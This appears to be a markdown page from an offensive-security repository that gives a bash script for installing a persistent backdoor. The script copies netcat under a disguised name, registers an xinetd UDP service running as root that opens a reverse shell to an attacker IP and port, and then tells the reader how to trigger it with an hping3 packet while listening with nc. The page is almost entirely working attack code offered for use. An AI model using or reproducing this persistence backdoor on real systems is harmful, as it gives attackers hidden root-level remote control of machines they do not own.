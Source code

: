 
> [!NOTE] Remember
> Make sure that you modify the `attacker ip` and `port` in the script

```sh
#!/bin/bash

cp /bin/nc /bin/services-udp
echo "Service services-udp" > /etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo "			server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo "			server_args = <attack-ip> <port> -e /bin/bash" >> /etc/xinetd.d/services-udp
echo "			protocaol = udp" >> /etc/xinetd.d/services-udp
echo "			user = root" >> /etc/xinetd.d/services-udp
echo "			socket_type = dgram" >> /etc/xinetd.d/services-udp
echo "			wait = yes" >> /etc/xinetd.d/services-udp
echo "			flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp

echo "services-udp	65534/udp 	# services-udp" >> /etc/services

/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```


On target run script

```sh
./xinetd_server.sh
```

On attack box: start listenner and send UDP packet

```sh
nc -nlvp 4444
```

```sh
sudo hping3 -2 -c 1 <target-ip> -p 65534
```
